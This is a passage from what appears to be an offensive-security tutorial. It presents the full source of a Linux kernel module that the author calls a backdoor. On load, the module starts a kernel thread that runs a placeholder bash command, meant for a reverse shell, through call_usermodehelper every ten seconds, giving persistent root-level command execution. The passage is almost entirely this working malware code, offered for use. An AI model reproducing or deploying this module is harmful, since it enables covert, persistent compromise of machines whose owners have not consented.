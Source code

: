 ## Now i hope you got the idea that what we’re gonna do we have created a module that can execute some commands and a module that can do timer stuff if we do combine both we can have a backdoor giving us a reverse connection every second

after combining the code the code will look like this

```jsx
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/kthread.h>
#include <linux/delay.h>

MODULE_AUTHOR("J3rry");
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Description");

static struct task_struct *my_thread;

void command_executer(void){
        char *cmd_array[] = {"/bin/bash", "-c", "put your commands for revshell or for anything else ", NULL};
        char *env_variable[] = { "HOME=/", "TERM=linux", "PATH=/sbin:/usr/sbin:/bin:/usr/bin", NULL };
        call_usermodehelper(cmd_array[0], cmd_array, env_variable, UMH_WAIT_EXEC);
        printk(KERN_INFO "All commands has been executed");
}
int print_hello (void *data)
{
    while (!kthread_should_stop()) {
        command_executer();
        printk(KERN_INFO "HELLO\n");
        msleep(10000); //sleep for 10 seconds
    }

    return 0;
}

static int __init initiate(void)
{
    printk(KERN_INFO "started\n");

    my_thread = kthread_create(print_hello, NULL, "my_thread");//here we did create the thread only
    if (IS_ERR(my_thread)) {//if there is any error in creating the thread then print failed
        printk(KERN_ALERT "Failed to create kernel thread\n");
        return -ENOMEM;
    }

    wake_up_process(my_thread);//here we did the process initiate

    return 0;
}

static void __exit remove(void)
{
    kthread_stop(my_thread);
    printk(KERN_INFO "bye bye\n");
}

module_init(initiate);
module_exit(remove);
```
